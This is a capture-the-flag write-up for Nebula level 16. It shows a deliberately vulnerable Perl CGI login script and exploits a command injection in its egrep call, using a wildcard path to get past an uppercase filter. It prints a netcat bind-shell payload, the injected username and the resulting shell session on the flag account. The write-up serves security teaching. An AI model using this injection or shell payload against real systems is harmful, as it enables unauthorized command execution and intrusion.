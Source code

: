 +++
author = "pwntester"
categories = ["nebula16"]
date = 2013-11-26T17:34:00Z
description = ""
draft = false
slug = "nebula-level16-write-up"
tags = ["nebula16"]
title = "Nebula level16 write-up"

+++

In [Level 16]() we are given the following perl CGI:

```lang-bash line-numbers 
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/;  # conver to uppercase
  $username =~ s/\s.*//;    # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
    ($usr, $pw) = split(/:/, $line);


    if($pw =~ $password) {
      return 1;
    }
  }

  return 0;
}

sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
    print("Your login was accepted<br/>");
  } else {
    print("Your login failed<br/>");
  }
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));

```

Its easy to see the command injection in the egrep command:

```lang-bash line-numbers 
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

Now, the hard part is that we are limited to uppercase. We will create our regular payload, something like:

```lang-bash line-numbers 
level16@nebula:/tmp$ cat /tmp/RSHELL
#!/bin/bash
nc -lvnp 9999 -e /bin/sh
level16@nebula:/tmp$ chmod +x RSHELL
```

All we need to do now is find a way to put our payload in the server path and as that looks impossible, we will use a **bash** trick that allows us to use wildcards. So to execute **/tmp/RSHELL** we can use:

```lang-bash line-numbers 
/*/RSHELL
```

Now, go to your browser, and use the following username:

```lang-bash line-numbers 
`/*/RSHELL`
```

Back to our terminal, we will connect to the nc listener:

```lang-bash line-numbers 
level16@nebula:/home/flag16$ nc 127.0.0.1 9999
id
uid=983(flag16) gid=983(flag16) groups=983(flag16)
getflag
You have successfully executed getflag on a target account
^C
```

Voila!!
